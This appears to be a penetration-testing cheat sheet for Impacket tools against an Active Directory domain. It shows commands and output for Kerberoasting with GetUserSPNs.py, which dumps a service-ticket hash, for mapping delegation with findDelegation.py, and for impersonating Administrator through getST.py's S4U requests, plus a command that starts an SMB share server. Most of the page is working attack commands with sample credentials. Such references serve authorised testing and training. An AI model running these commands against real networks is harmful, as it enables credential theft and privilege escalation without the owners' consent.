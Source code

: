 ### GetUserSPNs.py - Kerberoasting

```plain
$ GetUserSPNs.py -target-domain offsec.nl -request -outputfile out.log -dc-ip 10.10.10.10 offsec.nl/normal-user
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName               Name               MemberOf                                                              PasswordLastSet             LastLogon                   Delegation
---------------------------------  -----------------  --------------------------------------------------------------------  --------------------------  --------------------------  ----------
SRV2016-DC/DC01.offsec.nl         DC01 [REDACTED]

$ cat out.log
$krb5tgs$23$*[REDACTED]
```

### findDelegation.py - Queries target domain for delegation relationships

```plain
$ findDelegation.py offsec.nl/normal-user:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

AccountName     AccountType     DelegationType                  DelegationRightsTo
-----------     -----------     --------------------------      ------------------
janedo          Person          Resource-Based Constrained      SRV01$
```

### getST.py - Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache

[Using tickets](https://swarm.ptsecurity.com/kerberoasting-without-spns/).

To use tickets install the `klist` tool with `sudo apt install krb5-user`

```plain
$ getST.py -impersonate Administrator -spn 'host/SRV01.offsec.NL' offsec.NL/janedo:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

### SMBServer.py - Create a SMB server where a user can connect to

#### SMB server share without password

```plain
sudo smbserver.py -ip <ip-to-bind> <share-name> <local-folder-to-share>
```
